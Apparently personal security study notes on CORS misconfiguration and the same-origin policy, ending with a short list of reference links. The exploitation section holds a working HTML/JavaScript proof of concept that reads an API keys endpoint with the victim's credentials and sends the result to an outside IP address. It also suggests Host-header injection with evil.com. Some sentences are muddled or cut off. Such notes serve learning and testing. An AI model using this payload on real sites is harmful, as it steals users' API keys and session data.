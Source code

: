 - Cross origin resource sharing
- This can used to retrieve data from API/websites which shouldn't be able to access the legit website.
- Meaning an attacker might be able to show some data with some evil stuff on/from the legit website.

## What is SOP?

Same origin policy prevents:

- JavaScript on Site A from reading the cookies of Site B.
- JavaScript on Site A from reading the content of Site B.

The browser will send a request with an Origin header and the server can decide whether or not it should allow this request. The server can allow the browser to make CORS request by responding with the header **Access-Control-Allow-Origin:** and a list of hostnames. By default, the browser will send unauthenticated requests unless the server told it not to using **Access-Control-Allow-Credentials: true**.

But the vulnerability arises when server respond with **Access-Control-Allow-Origin: ***

- Sometime what happens that websites return the `origin` header as the `Access-Control-Allow-Origin`, because simplicity developer had decided to not maintain any white list.

## Exploitation

So test with the headers and see if you can get the server to display your `[https://evil.com](https://evil.com)` in the `Access-Control-Allow-Origin` header.

```html
<html>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.open("POST", "http://api-ptl-ad42da05-c93d6931.libcurl.so//api/v1/keys", false);
            xhr.withCredentials = true;
            xhr.send();

            var a=xhr.responseText;

            var xhr2 = new XMLHttpRequest();
            xhr2.open("GET", "http://52.66.120.246"+a,false);
            xhr2.withCredentials=true;
            xhr2.send();
        </script>
    </body>
</html>
```

This is the example in which we 

## Resources

- [https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
- [https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
- [https://github.com/trustedsec/cors-poc](https://github.com/trustedsec/cors-poc)
- [https://hackerone.com/reports/470298](https://hackerone.com/reports/470298)
- Try to use `[evil.com](http://evil.com)` in `HOST` header it is possible that the email ID you get would be containing URL with `evil.com`
    - Try to use multiple hosts like

    ```jsx
    HOST: legit.com
    HOST: evil.com
    ```
